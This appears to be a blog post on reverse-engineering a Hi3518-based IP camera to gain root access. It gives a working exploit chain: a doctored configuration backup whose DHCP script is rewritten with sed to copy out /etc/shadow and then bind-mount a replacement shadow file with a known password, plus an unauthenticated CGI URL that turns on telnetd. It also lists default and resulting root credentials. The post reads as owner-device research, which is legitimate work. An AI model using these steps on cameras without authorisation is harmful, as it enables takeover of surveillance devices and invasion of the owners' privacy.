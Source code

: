 ```yaml
---
layout: post
title:  Getting into the CTIPC-275C1080P
date:   2019-03-06 16:26:32 -0800
tags:   hi3518 reverse_engineering linux
---
```

Before we get too far in, I have to say that it feels like someone put some effort into securing this thing.  Let's start with the good:
* Telnet is not running by default
* Enabling debug mode doesn't do anything so far as I can tell
* U-Boot is password protected
* The hardware UART is not labeled and doesn't have a header
* The root password is non-trivial (withstood 24-hrs of `hashcat` and `john`)

Unfortunately, it's not all love and kittens.  There are a couple fatal flaws:
* Telnet can be enabled trivially via an exploit published in 2016 if not earlier
* The configuration backup/restore functionality can be exploited for mostly-arbitrary command execution

## Just let me in

* Log into your camera's web GUI (admin/admin by default)
* Go to Settings -> System -> Initialize
* Restore [this config backup](/assets/config_backup-hipc3518.bin)
* Your camera will reboot and come back up with factory defaults
* Log back into the web GUI (admin/admin)
* Go to Network -> Wireless and connect to any network.  Make sure you use Dynamic IP Address
* Visit [this url](http://ipcam/cgi-bin/hi3510/printscreenrequest.cgi) to enable `telnetd`.
* You can now `telnet` into your camera (root/hipc3518)

## Unlocking the door

There were a lot of false starts and dead ends, but here's the path that got us in:

Start out by resetting factory defaults then downloading the *Backup setting data* from the Settings -> System -> Initialize section of the web GUI.  This will get you your baseline `config_backup.bin`.

`config_backup.bin` is a glorified tarball with 512-bytes of header material that tells the camera that this is a valid backup package.  Stripping off the header, we get a `gzip`ed `tar`ball which includes some DHCP scripts executed by `/bin/sh`.
```
dd bs=512 skip=1 if=config_backup.bin of=config_backup.tgz
```
If you un`tar`, make changes, and re`tar` the archive, something in the binary validation fails, but happily `tar` is just a stream and the DHCP dispatch script contains some comments which can be clobbered in place with `sed` without extracting the archive:
```
#!/bin/sh
# Currently, we only dispatch according to command.  However, a more
# elaborate system might dispatch by command and interface or do some
# common initialization first, especially if more dhcp event notifications
# are added.

exec /mnt/mtd/ipc/conf/udhcpc/default.$1
```
For our first nefarious act, we'll copy `/etc/shadow` into the config directory and give ourselves an `echo` so we can see over serial if it ran:
```
gzip -cd config_backup.tgz |
sed -e 's|# Currently, we only disp|echo "Living the dream" #|' |
sed -e 's|# elaborate system might dispatch b|cp /etc/shadow /mnt/mtd/ipc/conf/ #|' |
gzip -c --best > archive.tgz
```
Now, if you look at `mnt/mtd/ipc/conf/udhcp/default.script` from `archive.tgz`, you'll find:
```
#!/bin/sh
echo "Living the dream" #atch according to command.  However, a more
cp /etc/shadow /mnt/mtd/ipc/conf/ #y command and interface or do some
# common initialization first, especially if more dhcp event notifications
# are added.

exec /mnt/mtd/ipc/conf/udhcpc/default.$1
```
Next, we reassemble the package and upload it to the camera:
```
./config_packer # To be documented
```
The camera will reboot and once it runs its DHCP scripts upon joining the network, we'll have `/etc/shadow` in the config directory.  Download the backup again and save it as `config_backup-shadow.bin` and strip the header as before:
```
dd bs=512 skip=1 if=config_backup-shadow.bin of=config_backup-shadow.tgz
```
you'll find your `/etc/shadow` file:
```
root:$1$ocmTTAhE$v.q2/jwr4BS.20KYshYQZ1:17500:0:99999:7:::
```
Pretty cool, eh?  I burned up several machines for 24-hours working on the hash with `hashcat` and `john` and didn't get anywhere.  Googling it, I just found someone else asking if anyone had broken it.  So much for getting the password easily.

Since we haven't managed to break the hash and `/etc/` is read-only on the device, we'll need to update the `shadow` file in our config directory with a known hash and then `mount --bind` it over the real `/etc/shadow`.
```
gzip -cd config_backup-shadow.tgz |
sed -e 's|$1$ocmTTAhE$v.q2/jwr4BS.20KYshYQZ1|$1$hDwZFK2z$NLzmlcsiUw2zAe8ol1EcI0|' |
sed -e 's|cp /etc/shadow /mnt/mtd/ipc/conf/ #y command and in|mount --bind /mnt/mtd/ipc/conf/shadow /etc/shadow #|' |
gzip -c --best > archive.tgz
```
Now if you look at `archive.tgz`'s `default.script` you'll see:
```
#!/bin/sh
echo "Living the dream" #atch according to command.  However, a more
mount --bind /mnt/mtd/ipc/conf/shadow /etc/shadow #terface or do some
# common initialization first, especially if more dhcp event notifications
# are added.

exec /mnt/mtd/ipc/conf/udhcpc/default.$1
```
...and its `shadow` file:
```
root:$1$hDwZFK2z$NLzmlcsiUw2zAe8ol1EcI0:17500:0:99999:7:::
```
Build and upload the package binary:
```
rcw@xps:~/Projects/ctronics$ ./config_packer
```
Once the camera comes up, enable `telnetd` by visiting `http://ipcam/cgi-bin/hi3510/printscreenrequest.cgi`.  You can now `telnet` into the camera as root/hipc3518:
```
rcw@xps:~/Projects/ctronics$ telnet ipcam
Trying 192.168.0.120...
Connected to ipcam.
Escape character is '^]'.

IPCamera login: root
Password:
Welcome to HiLinux.
~ #
```
